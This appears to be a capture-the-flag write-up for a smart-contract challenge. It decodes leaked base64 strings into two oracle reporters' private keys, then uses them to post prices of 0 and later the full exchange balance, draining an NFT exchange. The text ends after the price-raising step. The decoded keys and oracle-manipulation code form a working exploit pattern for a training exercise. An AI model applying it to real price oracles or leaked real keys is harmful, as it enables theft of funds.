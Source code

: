 > A related on-chain exchange is selling (absurdly overpriced) collectibles called "DVNFT", now at 999 ETH each
>
> This price is fetched from an on-chain oracle, and is based on three trusted reporters:
> `0xA73209FB1a42495120166736362A1DfA9F95A105`
> `0xe92401A4d3af5E446d93D11EEc806b1462b39D15`
> `0x81A5D6E50C214044bE44cA0CB057fe119097850c`
>
> Starting with only 0.1 ETH in balance, you must steal all ETH available in the exchange.

#### Solution

The server response has 2 long strings which when decoded as a string as suggested by the headers, they return the following:

```
MHhjNjc4ZWYxYWE0NTZkYTY1YzZmYzU4NjFkNDQ4OTJjZGZhYzBjNmM4YzI1NjBiZjBjOWZiY2RhZTJmNDczNWE5
```

```
MHgyMDgyNDJjNDBhY2RmYTllZDg4OWU2ODVjMjM1NDdhY2JlZDliZWZjNjAzNzFlOTg3NWZiY2Q3MzYzNDBiYjQ4
```

These look like base64 strings, which we can further decode into:

```
0xc678ef1aa456da65c6fc5861d44892cdfac0c6c8c2560bf0c9fbcdae2f4735a9
```

```
0x208242c40acdfa9ed889e685c23547acbed9befc60371e9875fbcd736340bb48
```

When trying these out as private keys, we obtain the private keys for the last two addresses in the `sources` list, which are the EOAs allowed to post prices to the oracle.

Now that we can use these addresses, we can call `postPrice()` for the "DVNFT" NFTs:

```python
oracle.postPrice("DVNFT",0, _fromLeakedAcc[0])
oracle.postPrice("DVNFT",0, _fromLeakedAcc[1])
```

After posting 0 for each of them, the median price returned by `getMedianPrice()` will return 0, as the median of $\{990, 0, 0\}$ is $0$.

We can then use the attacker account to buy one of these NFTs for 1 wei. We need to send at least 1 wei when buying, as requested by the `buyOne()` function:

```cs
uint256 amountPaidInWei = msg.value;
require(amountPaidInWei > 0, "Amount paid must be greater than zero");
```

After obtaining the NFT, we can post a new price corresponding to the entire balance of the NFT exchange:

```python
oracle.postPrice("DVNFT", exchange.balance(), _fromLeakedAcc[0])
oracle.postPrice("DVNFT", exchange.balance(), _fromLeakedAcc[1])
```
